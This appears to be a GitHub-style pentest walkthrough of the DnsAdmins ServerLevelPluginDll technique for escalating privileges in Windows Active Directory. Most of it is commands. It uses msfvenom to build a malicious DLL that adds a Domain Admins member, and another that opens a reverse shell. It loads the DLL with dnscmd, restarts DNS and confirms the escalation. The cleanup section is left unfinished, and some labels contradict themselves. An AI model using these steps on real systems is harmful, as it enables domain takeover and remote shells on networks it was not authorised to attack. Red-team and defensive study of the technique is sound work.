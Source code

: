 ### Explanation
DNS management is performed over RPC 
[ServerLevelPluginDLL](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows custom DLL with no verification to be loaded in with [dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) tool from CLI.	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` populates a registry key.
When the DNS service is restarted the DLL path will be loaded. a custom DLL can obtain a reverse shell. This is a very destructive action.

### Running the exploit:
Generate malicious DLL:
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= --platform=windows -f dll > reverseshell.dll
```
Transfer file across to target 

Load DLL as Non-Privileged User: (Only a DnsAdmins can do this.)
```cmd
dnscmd.exe /config /serverlevelplugindll <path to dll>
```
Load DLL as member of DnsAdmins:
```powershell 
Get-ADGroupMember -Identity DnsAdmins`
```
Load Custom DLL:
```cmd
dnscmd.exe /config /serverlevelplugindll <path to dll> #must use full path
```
Find Users SID
```cmd
wmic useraccount where name="netadm" get sid
```
Check permissions on DNS service
```cmd
sc.exe sdshow DNS
```
[Understand the output](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/)
Stop the DNS service
```cmd
sc stop dns
```
Start the DNS service
```cmd
sc start dns
```
Confirm account has been added to the Domain Admins
```cmd
net group "Domain Admins" /dom
```
Check DNS
```cmd
sc query
``` 
### Cleaning up:
Confirm registry key is added 
```cmd
reg query \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
Delete Registry key 
```cmd
```